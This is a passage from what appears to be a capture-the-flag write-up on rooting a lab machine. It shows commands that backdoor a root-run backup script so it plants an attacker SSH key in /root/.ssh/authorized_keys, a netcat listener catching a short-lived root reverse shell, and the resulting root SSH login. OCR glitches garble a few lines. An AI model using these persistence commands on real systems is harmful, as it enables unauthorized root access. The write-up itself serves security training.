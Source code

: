     pericles@time:/var/www$ find.md/ -writable
    pericles@time:/var/www$ ls -l               
    total 4
    dr-xr-xr-x 7 pericles pericles 4096 Oct 23 06:44.md



There are no folders in .md` that are writable by the pericles user
(which is where the RCE happens).

### Utilizing Short-Lived Shells

The shell that came back dies in about 10 seconds, which is enough time
to grab `root.txt`. But of course I wanted a stable shell. The easy way
to do this is just to have script write my SSH public key into
`authorized_keys`:



    pericles@time:/var/www.md$ echo -e '\nmkdir -p /root/.ssh\necho "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" >> /root/.ssh/authorized_keys'  >> /usr/bin/timer_backup.sh



This will create the directory `/root/.ssh` if it doesn't exist, and
then write my [tiny ed25519 public
key](https://medium.com/risan/upgrade-your-ssh-key-to-ed25519-c6e8d60d3c54)
into the `authorized_keys` file.

Still, cases come up where a short lived shell is all you can get. It's
interesting to see how to script commands to run on the shell. I'll just
`echo` them into the `nc` listener:



    oxdf@parrot$ echo 'mkdir -p /root/.ssh && echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58Q
    vP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" >> /root/.ssh/authorized_keys' | sudo nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.8] from (UNKNOWN) [10.10.10.214] 58360
    bash: cannot set terminal process group (67254): Inappropriate ioctl for device
    bash: no job control in this shell
    <U19G3d nobody@nothing" > /root/.ssh/authorized_keys
    root@time:/# 
    ^C



It connects, and then I'll Ctrl-C to exit and then connect over SSH, and
it works:



    oxdf@parrot$ ssh -i ~/keys/ed25519_gen root@10.10.10.214
    Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-52-generic x86_64)
    ...[snip]...
    root@time:~#








